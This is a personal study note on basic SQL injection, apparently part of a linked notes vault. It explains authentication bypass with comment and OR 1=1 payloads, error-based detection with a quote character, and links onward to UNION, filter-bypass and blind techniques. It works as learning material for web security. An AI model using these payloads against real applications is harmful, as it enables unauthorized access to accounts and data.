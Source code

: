 ### Title
Tags: #sqli
Related to: 
See also: [[SQLi - advance exploits <Blind-sqli>]]
Previous:

### Body
questions: [[2024-06-05]]
**Summary**: Here i wrote about the basics of sqli and basic over view of everything.

**Notes:**
### injection

`SELECT * FROM users WHERE username = ‘marcus’ and password = ‘secret’`
this query happens in a login
to by pass this use this
```
SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’
=> SELECT * FROM users WHERE username = ‘admin’ 
```

=="--" this means comment in sql ==


Suppose that the attacker does not know the administrator’s username. In
most applications, the first account in the database is an administrative user,
because this account normally is created manually and then is used to generate

all other accounts via the application. Furthermore, if the query returns the
details for more than one user, most applications will simply process the first
user whose details are returned. An attacker can often exploit this behavior to
log in as the first user in the database by supplying the username:
```
‘ OR 1=1--
```

This causes the application to perform the query:
```
SELECT * FROM users WHERE username = ‘’ OR 1=1--’ AND password = ‘foo’
```
Because of the comment symbol, this is equivalent to:
```
SELECT * FROM users WHERE username = ‘’ OR 1=1
```

## basic sqli

```
SELECT author,title,year FROM books WHERE publisher = ‘Wiley’ and
published=1
```

to find all the book published by wiley

```
SELECT author,title,year FROM books WHERE publisher = ‘O’Reilly’ and
published=1
```
this will come with a error if the website is vulnerable to the #sqli.

error should look like this:
```
Incorrect syntax near ‘Reilly’.
Server: Msg 105, Level 15, State 1, Line 1
Unclosed quotation mark before the character string ‘
```

the following payload would work on this
```
Wiley’ OR 1=1--
```

This causes the application to perform the following query:
```
SELECT author,title,year FROM books WHERE publisher = ‘Wiley’ OR
1=1--’ and published=1
```

[[SQL injection - Testing basic vuln|Test for SQLi vulnerbility]]

You can inject using these sql commands.
- Insert
- Update
- Select
- Union

### The Union operator
The union operator adds to table if they have similiar columns and content. [[Sql - Union clause|HERE]] is a reference for the basic of union and [[Union based sqli|HERE]] is more about union based sqli.

also learn [[SQL injection - Extracting data|how to extract]] data from a vulnerable website

### Bypass the filter
sometimes there are filter that will sanitize certein keywords. We can still bypass these filters. [[Bypass filters|HERE]] is some basic techniques to bypass them.


### Blind SQL
sometimes there is no issue seen on the target using sqli but it is still vulnerable. Here we have to techniques to get them. This is the [[SQLi - advance exploits <Blind-sqli> |Link.]]

### References
- [[SQL injection - Extracting data]]
- [[SQL injection - Testing basic vuln]]
- [[Sql - Union clause]]
- [[Need to read this - sqli]]
- [[watch this - sqli-union-based]]



